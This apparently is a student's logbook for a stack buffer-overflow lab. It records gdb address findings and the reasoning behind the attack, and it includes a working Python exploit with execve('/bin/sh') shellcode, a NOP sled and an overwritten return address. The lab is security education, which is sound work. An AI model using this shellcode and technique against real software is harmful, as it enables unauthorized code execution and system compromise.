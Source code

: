 # Log Book 5

## Task 1

Both versions of the shellcode (32 and 64 bit) spawn a shell. We can run commands
on this shell as usual, but deleting characters doesn't given visual feed. Deleting
a char from the command line deletes it fromm the buffer, but it remains on screen.

The environment of these shells includes both a PWD and OLDPWD:. It also includes
a SHLVL variable. No PATH environment variabl is defined.

## Task 2

There are 4 executable with slightly different configs (**DBUF_SIZE**):

- L1 - 100
- L2 - 160
- L3 - 200
- L4 - 10

We'll use L1 for task 3.

## Task 3

This executable was compiled for 32-bit and, using the instructions in the
lab pdf, we obtained the following information concerning the address
of the buffer and the frame pointer.

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaa8

gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca3c
```

### How to attack

We'll place our shell code in a region above the return address location
and change the return address to point to that location.

### Stack pointer

The frame pointer is pointing to the address of the **last frame pointer.**.
The last frame pointer is a 32-bit value: 4 byte. With this, we know the
stack pointer, **sp**, is at `sp + 4 = 0xffffcaa8 + 4 = 0xffffcaac`.

### The attack

We have a 517 byte buffer to use. We'll start by filling it with **NOPs**,
and then place our shellcode at the end of this buffer. These **NOPs** will
be helpful later since we can just point the return address no anywhere in
this region and the shellcode will be eventually reached (less precision
required).

We can calculate that the offset between the buffer address and the frame
pointer, `fp - buf_addr`, is **108**.

With all of these in mind, we can place the address of the start of the
shellcode as the return address: `buf_addr + start`.

When the function attempts to return, it will jump to the shellcode and
spawn a shell.


### Exploit code

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffffcaa8
sp = fp + 4
buf_addr = 0xffffca3c

# buf_fp_offset
start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = buf_addr + start
offset = sp - buf_addr

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

### Results

We managed to spawn a shell.

